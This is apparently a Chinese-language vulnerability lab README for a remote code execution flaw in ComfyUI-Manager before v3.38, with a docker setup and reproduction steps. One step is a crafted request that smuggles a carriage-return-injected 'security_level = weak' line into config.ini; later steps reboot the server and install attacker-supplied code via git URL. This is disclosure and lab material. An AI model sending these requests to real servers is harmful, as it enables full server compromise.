



# ComfyUI-Manager 远程命令执行漏洞

ComfyUI 是一款基于节点式工作流的 Stable Diffusion 专业图形界面，它是开源 AI 绘画领域的核心项目之一。ComfyUI-Manager 是 ComfyUI 的官方扩展管理器，负责管理自定义节点、模型和更新的安装。ComfyUI-Manager 的数据与配置目录在旧版本中未受 ComfyUI 的 Web API 访问控制充分保护。攻击者利用此漏洞可导致在服务器上实现远程代码执行，从而完全控制服务器。该漏洞已在 ComfyUI-Manager v3.38 版本中通过引入“系统用户保护API”得到修复，所有配置数据被迁移至受保护的目录下。

https://mp.weixin.qq.com/s/I1_2E9OyxySwWy0KqQdJXg


影响版本：ComfyUI-Manager 版本 < v3.38
安全版本：ComfyUI-Manager 版本 >= v3.38

## 环境搭建

```bash
docker-compose up -d
```

访问 http://localhost:8188 即可看到 ComfyUI 的界面。

 
## 漏洞复现

1. GET /api/manager/db_mode?value=cache%0Dsecurity_level%20=%20weak 接口修改 config.ini 文件，将 security_level 设置为 weak



2. GET /api/manager/reboot 接口重启服务器，使配置生效



3. POST /api/customnode/install/git_url 下载并安装 evil 代码，会自动执行




## 漏洞发现者

该漏洞由腾讯玄武实验室的RicterZ发现并报告。